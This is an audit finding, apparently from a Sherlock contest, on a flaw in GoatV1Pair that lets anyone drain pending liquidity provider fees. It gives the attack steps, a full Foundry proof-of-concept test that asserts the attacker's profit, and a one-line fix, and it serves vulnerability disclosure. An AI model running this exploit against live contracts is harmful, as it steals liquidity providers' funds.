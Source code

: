 Daring Champagne Scallop

high

# Liquidity provider fees can be stolen from any pair

## Summary
An attacker can steal the liquidiy providers fees by transfering liquidity tokens to the pair and then withdrawing fees on behalf of the pair itself.

## Vulnerability Detail

This is possible because of two reasons:
1. Transfering liquidity tokens to the pair itself [doesn't update the fee tracking variables](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L923-L925):

```solidity
if (to != address(this)) {
    _updateFeeRewards(to);
}
```
which results in the variable `feesPerTokenPaid[address(pair)]` of the pair being equal to 0.

2. The function [withdrawFees()](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L616) is a permissionless function that allows to withdraw fees on behalf of any address, including the pair itself.

By combining this two quirks of the codebase an attacker can steal all of the currently pending liquidity provider fees by doing the following:

1. Add liquidity to a pair, which will mint the attacker some liquidity tokens
2. Transfer the liquidity tokens to the pair directly
3. Call [withdrawFees()](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L616) by passing the address of the pair. Because `feesPerTokenPaid[address(pair)]` is 0 this will collect fees on behalf of the pair even if it shouldn't. The function will transfer an amount `x` of WETH from the pair to the pair itself and will lower the [_pendingLiquidityFee](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L622C13-L622C34) variable by that same amount 
4. Because the variable `_pendingLiquidityFee` has been lowered by `x` the pool will assume someone transferred `x` WETH to it
5. At this point the attacker can take advantage of this however he likes, but for the sake of the example let's suppose he calls [swap()](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L242) to swap `x` ETH into tokens that will be transferred to his wallet
6. The attacker burns the liquidity transferred at point `2` to recover his funds

### POC

<details>
<summary>Show</summary>
To copy-paste in `GoatV1Pair.t.sol`:

```solidity
function testStealFees() public {
    GoatTypes.InitParams memory initParams;
    initParams.virtualEth = 10e18;
    initParams.initialEth = 10e18;
    initParams.initialTokenMatch = 10e18;
    initParams.bootstrapEth = 10e18;

    address pairAddress = factory.createPair(address(goat), initParams);
    address to = users.lp;

    //-> The following block of code:
    //  1. Creates a pool and immediately converts it into AMM
    //  2. Skips 31 days to skip the vesting period
    //  3. Simulates users using the pool by performing a bunch of swaps
    {
        //-> 1. A pair is created and immediately converted to an AMM
        (uint256 tokenAmtForPresale, uint256 tokenAmtForAmm) = GoatLibrary.getTokenAmountsForPresaleAndAmm(
            initParams.virtualEth, initParams.bootstrapEth, initParams.initialEth, initParams.initialTokenMatch
        );
        uint256 bootstrapTokenAmt = tokenAmtForPresale + tokenAmtForAmm;

        _fundMe(IERC20(address(goat)), to, bootstrapTokenAmt);
        _fundMe(IERC20(address(weth)), to, initParams.initialEth);
        vm.startPrank(to);

        goat.transfer(pairAddress, bootstrapTokenAmt);
        weth.transfer(pairAddress, initParams.initialEth);
        pair = GoatV1Pair(pairAddress);
        pair.mint(to);
        vm.stopPrank();

        //-> 2. Skips 31 days to skip the vesting period
        skip(31 days);
        
        //-> 3. Simulates users using the pool by performing a bunch of swaps
        uint256 reserveEth = 0;
        uint256 reserveToken = 0;
        _fundMe(IERC20(address(goat)), to, 100e18);
        _fundMe(IERC20(address(weth)), to, 100e18);
        for(uint256 i; i < 100; i++) {
            (reserveEth, reserveToken) = pair.getReserves();
            uint256 wethIn = 1e18;
            uint256 goatOut = GoatLibrary.getTokenAmountOutAmm(wethIn, reserveEth, reserveToken);
            vm.startPrank(to);
            weth.transfer(address(pair), wethIn);
            pair.swap(goatOut, 0, to);
            vm.stopPrank();

            skip(3); //Avoid MEV restrictions

            (reserveEth, reserveToken) = pair.getReserves();
            uint256 goatIn = 1e18;
            uint256 wethOut = GoatLibrary.getWethAmountOutAmm(wethIn, reserveEth, reserveToken);
            vm.startPrank(to);
            goat.transfer(address(pair), goatIn);
            pair.swap(0, wethOut, to);
            vm.stopPrank();
        }
    }

    //-> The pool has some pending liquidity fees
    uint256 pendingLiquidityFeesBefore = pair.getPendingLiquidityFees();
    assertEq(pendingLiquidityFeesBefore, 809840958520307912);

    //-> The attacker adds liquidity to the pool 
    address attacker = makeAddr("attacker");
    (uint256 reserveEth, uint256 reserveToken) = pair.getReserves();
    uint256 initialGoatAmount = 5.54e18;
    uint256 initialWethAmount = GoatLibrary.quote(initialGoatAmount, reserveToken, reserveEth);
    _fundMe(IERC20(address(goat)), attacker, initialGoatAmount);
    _fundMe(IERC20(address(weth)), attacker, initialWethAmount);
    vm.startPrank(attacker);
    goat.transfer(pairAddress, initialGoatAmount);
    weth.transfer(pairAddress, initialWethAmount);
    pair.mint(address(attacker));
    vm.stopPrank();

    //-> Two days needs to be skipped to avoid locking time
    skip(2 days);

    //-> The attacker does the following:
    //  -> 1. Transfers the liquidity tokens to the pair
    //  -> 2. Calls `withdrawFees()` on behalf of the pair which will lower `getPendingLiquidityFees` variables and transfers WETH from the pool to the pool
    //  -> 3. Swaps the excess WETH in the pool to GOAT tokens
    //  -> 4. Burns the liquidity he previously transferred to the pair
    //  -> 5. The attacker profits and LP lose their fees
    {
        vm.startPrank(attacker);

        //-> 1. Transfers the liquidity tokens to the pair
        pair.transfer(address(pair), pair.balanceOf(attacker));

        //-> 2. Calls `withdrawFees()` on behalf of the pair
        pair.withdrawFees(address(pair));

        //-> An extra amount of WETH equal to the fees withdrawn on behalf of the pool is now in the pool 
        uint256 pendingLiquidityFeesAfter = pair.getPendingLiquidityFees();
        (uint256 reserveEthCurrent, uint256 reserveTokenCurrent) = pair.getReserves();
        uint256 extraWethInPool = weth.balanceOf(address(pair)) - reserveEthCurrent - pair.getPendingLiquidityFees() - pair.getPendingProtocolFees();
        assertEq(pendingLiquidityFeesBefore - pendingLiquidityFeesAfter, extraWethInPool);

        //-> 3. Swaps the excess WETH in the pool to GOAT tokens
        uint256 goatOut = GoatLibrary.getTokenAmountOutAmm(extraWethInPool, reserveEthCurrent, reserveTokenCurrent);
        pair.swap(goatOut, 0, attacker);

        //-> 4. Burns the liquidity he previously transferred to the pair
        pair.burn(attacker);

        //-> 5. The attacker profits and LP lose their fees
        uint256 attackerWethProfit = weth.balanceOf(attacker) - initialWethAmount;
        uint256 attackerGoatProfit = goat.balanceOf(attacker) - initialGoatAmount;
        assertEq(attackerWethProfit, 399855575210658419);
        assertEq(attackerGoatProfit, 453187161321825804);

        vm.stopPrank();
    }
}

```
</details>

## Impact

Liquidity provider fees can be stolen from any pair.

## Code Snippet

## Tool used

Manual Review

## Recommendation

In [withdrawFees(pair)](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L616) add a require statement to prevent fees being withdrawn on behalf of the pool.
```solidity
require(to != address(this));
```